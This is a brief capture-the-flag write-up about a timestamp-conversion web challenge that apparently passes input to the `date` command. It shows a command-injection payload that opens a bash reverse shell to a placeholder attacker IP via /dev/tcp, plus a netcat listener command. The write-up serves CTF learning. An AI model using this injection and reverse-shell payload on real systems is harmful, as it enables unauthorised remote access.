

- when we open up the `url`, we see this: 


- so we can input a `UNIX` date to get a human-readable date 
- so I tried this date: `1773701884` and got this output: 
```bash
Mon Mar 16 22:58:04 UTC 2026
```

- then I thought about, that the site is maybe using the `date` command to do the conversion
- so I tried to get the same output with the same input locally and indeed got it with this: 
```bash
date -d @1773701884
```

- after this I was pretty sure that the site was using the `date` command
- so I tried to do basic `Command Injection` and it worked: 


- now we can setup a `reverse-shell`
- first start a listener with `netcat`: 
```bash
nc -lnvp 1234
```

- after this I used this payload to get a `reverse-shell`: 
```bash
1773701884; bash -c "/bin/bash -i >& /dev/tcp/[Attacker-IP]/1234 0>&1"
```

- after searching for a little I found out that the `flag` in the output from `env` 
- so it was stored as an environment-variable: 
```bash
HOSTNAME=e7c1352e71ec
PWD=/
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{redacted}
TERM=xterm
SHLVL=3
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/opt
_=/usr/bin/env
```